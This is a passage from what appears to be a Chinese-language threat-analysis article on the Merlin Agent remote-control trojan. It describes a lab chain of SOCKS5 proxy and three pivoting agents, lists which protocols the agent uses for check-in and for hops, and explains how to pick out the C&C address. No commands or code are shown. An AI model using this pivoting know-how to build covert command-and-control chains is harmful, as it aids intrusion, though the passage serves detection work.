* sock5代理服务（192.168.64.135） <- > 第一个Merlin Agent（192.168.64.154）



* 第一个Merlin Agent（192.168.64.154） <- > 第二个Merlin Agent（192.168.64.175）



* 第二个Merlin Agent（192.168.64.175） <- > 第三个Merlin Agent（192.168.64.176）



## 多层跳板网络中识别C&C地址

通过多轮尝试及分析，梳理Merlin Agent远控木马中跳板技术使用细节如下：

* 上线通信协议：HTTP、HTTPS、H2C、HTTP2、HTTP3
* 跳板通信协议：SMB、TCP、UDP
* proxy代理通信：仅支持配合HTTP、HTTPS协议实现木马上线

梳理发现，在Merlin Agent远控木马的不同通信环节过程中使用了不同的通信协议，**若在Merlin Agent远控木马的通信流量中发现其使用的是HTTP、HTTPS、H2C、HTTP2、HTTP3通信或proxy代理通信，则可基本确定Merlin Agent远控木马配置信息或运行命令行中的外链地址即为控制端C&C地址。**（推测由于此项目还在持续更新，因此导致了不同通信环节过程中使用的是不同通信协议）

相关代码截图如下：


